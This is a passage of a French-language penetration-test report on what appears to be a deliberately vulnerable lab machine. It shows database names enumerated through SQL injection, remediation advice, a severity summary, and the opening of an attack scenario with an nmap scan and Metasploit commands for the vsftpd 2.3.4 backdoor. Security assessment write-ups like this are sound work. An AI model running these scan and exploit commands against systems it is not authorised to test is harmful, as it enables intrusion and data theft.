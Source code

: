**Résultat** :
```
available databases [5]:
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
```

**Impact** :
- Extraction de données sensibles
- Modification de la base de données
- Possibilité d'obtenir un shell via SQL injection

**Recommandation** :
1. Utiliser des requêtes préparées (prepared statements)
2. Valider et assainir toutes les entrées utilisateur
3. Implémenter un WAF (Web Application Firewall)
4. Appliquer le principe du moindre privilège pour les comptes DB

---

### 4.5 Résumé des vulnérabilités

| **Sévérité** | **Nombre** | **Pourcentage** |
|----------------|------------|------------------|
| 🔴 Critique | 5 | 20% |
| 🟠 Élevée | 8 | 32% |
| 🟡 Moyenne | 12 | 48% |
| **Total** | **25** | **100%** |

---

## 🛠️ 5. Exploitation

### Scénario d'attaque complet

#### Étape 1 : Reconnaissance
```bash
nmap -sS -sV -A 192.168.100.20
```

#### Étape 2 : Exploitation vsftpd backdoor
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```
